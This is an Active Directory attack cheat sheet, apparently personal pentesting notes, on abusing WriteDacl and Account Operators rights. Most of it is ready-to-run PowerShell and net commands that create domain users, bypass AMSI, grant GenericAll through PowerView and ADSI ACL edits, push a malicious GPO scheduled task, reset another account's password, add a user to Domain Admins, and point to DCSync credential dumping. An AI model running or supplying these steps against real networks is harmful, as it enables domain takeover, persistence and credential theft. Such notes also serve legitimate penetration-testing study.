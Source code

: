 # WriteDacl

Account Operators/Write DACL - [[AMSI-Exploitation]]
[[PowerView-Cheatsheet]], [[evil-winrm-Cheatsheet]] and [[Impacket-Cheatsheet]] or  [[Crackmapexec-Cheatsheet]]
```powershell
# Account Operators can create and modify non-protected users and groups
# Find one - Non-Protect != Protected, but more privileged the better
net user $user $password /add /domain
net group "$Non-Protected-Group" $user /add
net localgroup "Remote Managment Users" $user /add # For Remoting
Bypass-4MSI # Evil-Winrm
# Dump creds with DC-SYNCing and secretsdumps
```
[[AD-DCSync-Attack]] 



To abuse WriteDacl to a GPO object, you may grant yourself the GenericAll privilege.

You may need to authenticate to the Domain Controller as ANIRUDH@VAULT.OFFSEC if you are not running a process as that user. To do this in conjunction with Add-DomainObjectAcl, first create a PSCredential object (these examples comes from the PowerView help documentation):

```powershell
$SecPassword = ConvertTo-SecureString 'passwords' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('$domain\user', $SecPassword)
```

Then, use Add-DomainObjectAcl, optionally specifying `$Cred` if you are not already running a process as `$user`:

```powershell
Add-DomainObjectAcl -Credential $Cred -TargetIdentity TestGPO -Rights All
```

With full control of a GPO, you may make modifications to that GPO which will then apply to the users and computers affected by the GPO. Select the target object you wish to push an evil policy down to, then use the gpedit GUI to modify the GPO, using an evil policy that allows item-level targeting, such as a new immediate scheduled task. Then wait at least 2 hours for the group policy client to pick up and execute the new evil policy. See the references tab for a more detailed write up on this abuse. 

Cleanup can be done using the Remove-DomainObjectAcl function:

```powershell
Remove-DomainObjectAcl -Credential $Cred -TargetIdentity TestGPO -Rights All
```

[iredteam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) - similarly requires Powerview

If owner of a group:
```powershell
([ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local").PSBase.get_ObjectSecurity().GetOwner([System.Security.Principal.NTAccount]).Value
```

Give self GenericAll
```powershell
$ADSI = [ADSI]"LDAP://CN=test,CN=Users,DC=offense,DC=local"
$IdentityReference = (New-Object System.Security.Principal.NTAccount("spotless")).Translate([System.Security.Principal.SecurityIdentifier])
$ACE = New-Object System.DirectoryServices.ActiveDirectoryAccessRule $IdentityReference,"GenericAll","Allow"
$ADSI.psbase.ObjectSecurity.SetAccessRule($ACE)
$ADSI.psbase.commitchanges()
```

Add new users to the group
```powershell
$path = "AD:\CN=test,CN=Users,DC=offense,DC=local"
$acl = Get-Acl -Path $path
$ace = new-object System.DirectoryServices.ActiveDirectoryAccessRule (New-Object System.Security.Principal.NTAccount "spotless"),"GenericAll","Allow"
$acl.AddAccessRule($ace)
Set-Acl -Path $path -AclObject $acl
```

Reset a password with GenericAll on a User
```powershell
Get-ObjectAcl -SamAccountName delegate -ResolveGUIDs | ? {$_.ActiveDirectoryRights -eq "GenericAll"}  
# Reset delegate account password
net user delegate delegate /domain
```

Or Join a group
```powershell
net group "domain admins" spotless /add /domain
```

## References

[iredteam](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-acls-aces) 
[Bloodhound.py](https://github.com/fox-it/BloodHound.py)
